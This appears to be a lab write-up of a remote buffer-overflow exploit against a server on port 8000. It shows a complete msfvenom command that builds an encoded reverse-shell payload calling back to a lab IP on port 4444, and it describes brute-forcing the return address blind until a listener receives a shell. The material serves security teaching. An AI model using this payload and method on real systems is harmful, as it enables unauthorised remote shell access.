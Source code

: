 # Remote Exploit
## 0x00 Task
The task here is to exploit a buffer overflow vulnerability on a remote server. The vulnerable application is running on port 8000 and we have to inject a suitable shellcode to hijack the control of its execution. What makes this exploit relatively challenging when compared to others, is that the server is remote and we cannot read the error messages from it once we send the packets to it. However, we have the piece of code which has the vulnerability server.c
## 0x01 Payload creation
With msfvenom, we create a non staged payload which provides us with reverse shell on port 4444 on our lab machine. To eliminate the bad characters we use the x86/alpha_upper encoder.
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.56.3 LPORT=4444 AppendExit=true -e x86/alpha_upper -f py
```
## 0x02 Testing the exploit locally
Since, we do not have the access to the vulnerable server, we need to first try and test the exploit locally on the server code we have access to. Luckliy, the compiler versions on both the lab machine and the remote server are the same. The debugger can help us exploiting it locally. We start a listner using netcat on port 4444 and test our exploit *rexploit.py*. We can successfully exploit locally, we proceed to exploit it remotely. On the localhost the memory address is between 0xffff0000 to 0xffffffff

## 0x03 Send the Exploit to Remote Server 
The main problem is, there is no way for us to find out the correct return address as there is no feedback from the server. We overcome this, by writing a script which will try to bruteforce all the memory addresses to find our return address. For remote, the address is not found in ffff0000 to ffffffff .So, enumeration is run from ff000000 to ffffffff. Sleep(0.1) is added as a precautionary measure. Our exploit is successful when we manage to get a shell in the listener!

